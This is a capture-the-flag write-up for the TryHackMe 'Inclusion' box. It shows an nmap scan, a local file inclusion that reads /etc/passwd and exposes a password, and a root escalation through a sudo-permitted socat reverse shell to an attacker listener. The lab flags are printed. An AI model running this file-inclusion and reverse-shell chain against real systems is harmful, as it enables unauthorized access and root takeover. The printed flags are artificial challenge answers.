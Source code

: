 # Inclusion

## Task 1 -- Deploy
```
export IP=10.10.111.110
```

## Task 2 -- Root It

### 1 -- user flag

Nmap scan:
```bash
jeffrowell@kali:~/Documents/TryHackMe/Inclusion$ nmap -sC -sV -Pn -n -oN nmap/initial $IP
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-25 00:06 MDT
Nmap scan report for 10.10.111.110
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.14 seconds
```

We can find LFI parameters by clicking around and watching how the URL changes. For example, the `name` parameter is vulnerable to LFI as we can view the `/etc/passwd` file. In the `/etc/passwd` file we can find the password to the user `falconfeast`:


![lfi](https://user-images.githubusercontent.com/32188816/82784442-c126b100-9e1d-11ea-8542-fd200be2c003.png)

Now that we have creds, we log into the box and get the first flag:

```bash
falconfeast@inclusion:~$ ls
articles  user.txt
falconfeast@inclusion:~$ cat user.txt
60989655118397345799
```

### 2 -- root flag

We need to find a way to escalate our privileges, so lets first see what commands `falconfeast` can run as root:

```bash
falconfeast@inclusion:~$ sudo -l
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```

Looking in [GTFOBins](https://gtfobins.github.io/gtfobins/socat/) we can find some escalation methods for `socat`. The one which we can use is a simple reverse shell:

```bash
falconfeast@inclusion:~$ sudo socat tcp-connect:10.8.21.42:1234 exec:/bin/sh,pty,stderr,setsid,sigint,sane
```

After running that command we catch a root shell and can get the flag:

```bash
jeffrowell@kali:~/Documents/TryHackMe/Inclusion$  nc -lvp 1234
listening on [any] 1234 ...
10.10.111.110: inverse host lookup failed: Unknown host
connect to [10.8.21.42] from (UNKNOWN) [10.10.111.110] 43740
/bin/sh: 0: can't access tty; job control turned off
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
cat /root/root.txt
42964104845495153909
```
